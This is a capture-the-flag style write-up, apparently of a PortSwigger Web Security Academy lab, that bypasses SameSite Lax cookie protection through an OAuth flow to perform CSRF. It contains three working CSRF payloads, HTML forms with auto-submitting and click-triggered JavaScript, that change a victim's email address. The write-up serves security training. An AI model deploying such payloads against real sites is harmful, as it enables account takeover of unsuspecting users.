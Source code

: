 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/f367a510-be16-45db-ada1-ca97047282d0)

## Solution :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/df4a28e4-e124-44bc-9e83-550ec6340fe2)


Log in using the given username and password, the page will take us to a social media page for loggin in.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/3ad79edf-3f92-478d-80ca-30e903b17200)

Submit a update email request with some random email id.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/319a2790-3f77-40dd-a7b4-ef4d49c5854f)

The email update `POST` request doesn't have any unpredictable tokens.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/e7bebe28-ede1-4f4c-a9e0-4a908f6b5259)

Use the following script in the body section of the exploit server for a basic CSRF attack

```Javascript
<script>
    history.pushState('', '', '/')
</script>
<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="foo@bar.com" />
    <input type="submit" value="Submit request" />
</form>
<script>
    document.forms[0].submit();
</script>
```

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/a7e66e97-60a2-4d23-a374-d204f3bc1213)

The email has been changed to the one we specified.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/8c2b0285-a916-48e4-9d54-6e4770cb90b5)

The `GET /oauth-callback?code=[...]` request at the end of the OAuth flow doesn't explicitly specify any SameSite restrictions when setting session cookies. As a result, the browser will use the default Lax restriction level.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/acdff665-726a-4da6-acf6-5e7cf0a75799)

`/social-login` is the one that automatically initiates the full OAuth flow.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/b71be57d-9f57-4eb4-945f-cb76671d1078)

Use the following script in the body of the exploit server for causing an email change request.

```Javascript
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="faked@web-security-academy.net">
</form>
<script>
    window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
    setTimeout(changeEmail, 5000);

    function changeEmail(){
        document.forms[0].submit();
    }
</script>
```

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/3a140290-68df-4c68-ba8f-85bb0a4cbcfd)

The initial request is blocked as a popup.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/2bed33c3-7be1-4322-871b-af2ec4f35896)

Even though the pop-up was blocked the CSRF attack still works.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/59f9405f-9c63-4ba2-9f5e-19ae9a30be4a)

The pop-up was blocked because there is no interaction with the page. Use the following script in the body of the exploit server which will enable an interaction with the webpage.

```Javascript
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pranked@portswigger.net">
</form>
<p>Click anywhere on the page</p>
<script>
    window.onclick = () => {
        window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```

Delivering the it to the victim will finish the lab and cause the CSRF attack
![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/4d154309-beb9-47a5-83b5-97f2bb442857)

When inspecting the `POST /my-account/change-email` we can see a new session cookie has been created.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/89e4859b-3300-42b1-bba0-c5551f0a9ddc)

Deliver the exploit to the victim to solve the lab

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/c1a03235-0cb4-4e64-bbe2-f5a3c364a5dc)

